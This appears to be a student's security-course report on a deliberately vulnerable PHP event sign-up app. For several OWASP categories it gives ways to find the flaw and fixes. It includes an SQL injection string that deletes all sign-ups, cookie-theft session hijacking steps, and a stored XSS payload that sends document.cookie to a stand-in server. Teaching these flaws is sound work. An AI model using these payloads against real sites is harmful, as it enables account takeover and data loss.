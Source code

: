 # The Report

This project is done with PHP in a LAMP environment.<br> 
See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are many problems with this code, but I will only mention the most relevant problems and the most important fixes (as I see them) for each OWASP vulnerability, without going into details. Had to draw a line somewhere, otherwise I could have ended up spending so much time with this (and the assignment didn’t say how specific we needed to be about the fixes). 

The OWASP vulnerabilities:

## A1-Injection

### How to identify 
Sign up some users to the event. Check from the Admin page. Then go to the Cancel page and enter: ```' OR '1'='1```. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
The “mysqli_real_escape_string” function can be used in “delete.php” on the $ticket variable, to prevent the SQL-injection (as used in “done.php” on other variables). But a simple input validation (fixed length + lowcase alfanum only) will also fix the problem in this case.
## A2-Broken Authentication and Session Management
The cookie-session-id and the clear text admin credentials are sent over an unencrypted connection.<br>
Plus: Guessable fixed admin credentials (admin/password), which are stored in the source code (login.php) with no encryption.

### How to identify (broken session management)
You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” Firefox add-on):

1. Capture the cookie-session-id with OWASP ZAP. 
2. Go to the Admin login-page with Firefox (but don’t log in, - if you are not asked for the credentials then close the browser and try again). 
3. Open “Advanced Cookie Manager” and enter the cookie-session-id you saw with OWASP ZAP into the "Value" box, replacing the existing one (delete first, then paste). Save the change.
4. Re-enter the Admin page (do not only reload), and you’re in without entering credentials!

Note: You can use OWASP ZAP together with another browser, to capture the cookie-session-id, when logging in.

### How to fix
Use SSL for the website (see the link in Readme for details)! 

Besides that, the session could be re-generated and the old one destroyed with some intervals. And the session could be made to timeout sooner.  The “secure” and “path” parameters could be used for the session cookie (+ httponly to defend against A3).<br>
The admin credentials could be stored in the database with the password salted + hashed. The admin should be able to change (at least) the password. 

## A3
There are both Stored and Reflected XSS vulnerabilities. The Stored XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
### How to identify (stored XSS)
Enter this code into the address field on the SignUp page;

```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```

When the admin logs in and takes a look at the sign-ups, his session-id should be written to the logs of “yourserver”.<br> 
But you can also test with code like this, in any of the fields on the SignUp page; 
```<body onload=alert('hello')>```

### How to fix
HTML codes should be escaped using the htmlspecialchars or htmlentities PHP-functions + the input validated as tightly as possible (length, allowed characters, format etc.).

## A6
Credit card numbers are sent without SSL in cleartext with POST, and stored unencrypted in the database. And, the session cookie and the admin credentials can be stolen since SSL is not in use (see A2).

### How to identify
Capture the (imaginary) credit card numbers using OWASP ZAP.

### How to fix: 
Again, use SSL (see the link in Readme for details)! 

But there are many requirements when handling credit card data, see https://en.wikipedia.org/wiki/Payment_Card_Industry_Data_Security_Standard<br>
Regarding the session cookie and admin credentials, see the A2-fix.

## A7
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
### How to identify
Modify “yourserver” in this link to match your installation; http://yourserver/firstproject/admin/config.ini. Then open this link with your browser, and you should see the credentials.
### How to fix
Deny access to the config.ini file, in one way or another. 

There is already a .htaccess file in the admin folder that should do that, but Apache does not by default enable the use of .htaccess files. To enable, do this:

  Open /etc/apache2/apache2.conf in an editor, and find these lines;
  ```
  <Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
  </Directory>
  ```
  Change “AllowOverride None” to “AllowOverride All”. Run the command “apachectl restart”, and try to open the link again.
